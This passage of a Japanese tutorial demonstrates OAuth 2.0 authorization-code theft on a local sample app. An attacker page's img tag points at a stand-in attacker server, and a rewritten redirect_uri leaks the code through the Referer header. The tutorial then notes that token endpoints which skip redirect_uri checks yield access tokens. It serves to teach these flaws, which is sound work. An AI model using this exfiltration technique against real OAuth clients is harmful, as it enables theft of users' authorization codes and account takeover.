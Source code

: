### サンプルアプリによる例
実際に、攻撃の過程をみていきます。
攻撃者が作成したページは準備済みとなります。今回は `http://localhost:3000/userpage/made-by-attacker.html`に作成しました。

htmlの内容は以下のようになります。`localhost:3002`は攻撃者の用意したサーバーで、このページを開くと、自動的にGETリクエストが攻撃者のサーバーに送られます。

```html
<body>
    <h2>攻撃者が作成したページ</h2>
    <p>（攻撃者が何らかの手段で、クライアント上にこのページを作成する）</p>

    <img src="http://localhost:3002">
</body>
```

「2-3 完全なリダイレクトURIを事前登録していない場合」から開始し、認証画面まで遷移します。
すると、アドレスバーから、以下のようなURLが取得できます。
`http://localhost:3001/authorize?client_id=xyz98765&redirect_uri=http%3A%2F%2Flocalhost%3A3000%2Fcallback&response_type=code&state=id2uXuXL8slUqc2xmZRre7TB`

![](https://storage.googleapis.com/zenn-user-upload/0287363fa589-20211119.png)

ここのredirect_uriを作成したページに書き換えます。`%2F`は`/`をパーセントエンコーディングしたものになります。今回の例だと以下のようになります。
`http://localhost:3001/authorize?client_id=xyz98765&redirect_uri=http%3A%2F%2Flocalhost%3A3000%2Fuserpage%2Fmade-by-attacker.html&response_type=code&state=MVcXOMsvo69yJajrwZbb1HDu`

redirect_uriを書き換えたURLを被害者ユーザーに開かせて、認可に同意させます。
クライアントが事前登録したリダイレクトURIは`http://localhost:3000`なので、このredirect_uriの検証は通過します。

すると、攻撃者の作成したページにリダイレクトされます。
![](https://storage.googleapis.com/zenn-user-upload/b7fa25a6b91e-20211119.png)

上述したようにimg要素のsrc属性には攻撃者のサーバーを指定してあります。
そのため、攻撃者サーバーにGETリクエストが自動的に送られ、攻撃者サーバーの標準出力に以下のようにRefererヘッダが出力されます。

```
Referer: http://localhost:3000/userpage/made-by-attacker.html?code=DZWySln0aXN7mEVWlQcU0POIEqbOLxKG&state=MVcXOMsvo69yJajrwZbb1HDu
```

クライアントがリダイレクトURIを完全なURIで登録していない場合に、攻撃者がOAuth2.0のクランアントのサイトでページを作成することができたとすると、このように攻撃者が他者の認可コードを不正に取得することができます。

## 不正取得した認可コードによる攻撃
前節で、クライアントがリダイレクトURIを完全なURIで登録していない場合、認可コードを不正に取得されることを確認しました。次はこの認可コードを使った攻撃をみていきます。

実は、前節の手段で認可コードを取得したとしても、アクセストークンは取得できません。ここでredirect_uriが重要になってきます。

トークンリクエスト時のredirect_uriは、認可リクエスト時と同じ値でなければなりません。
前節の手段で取得した認可コードの場合、トークンリクエスト時と認可リクエスト時でredirect_uriの値が異なるため、ここで弾かれます。

>認可リクエストに, redirect_uri パラメーターが含まれていた場合は必須 (REQUIRED). 認可リクエスト時と同じ値でなければならない (MUST).

https://openid-foundation-japan.github.io/rfc6749.ja.html#rfc.section.4.1.3

逆に言うと、**トークンリクエスト時にredirect_uriを検証していない場合は不正にアクセストークンを取得できてしまいます。**
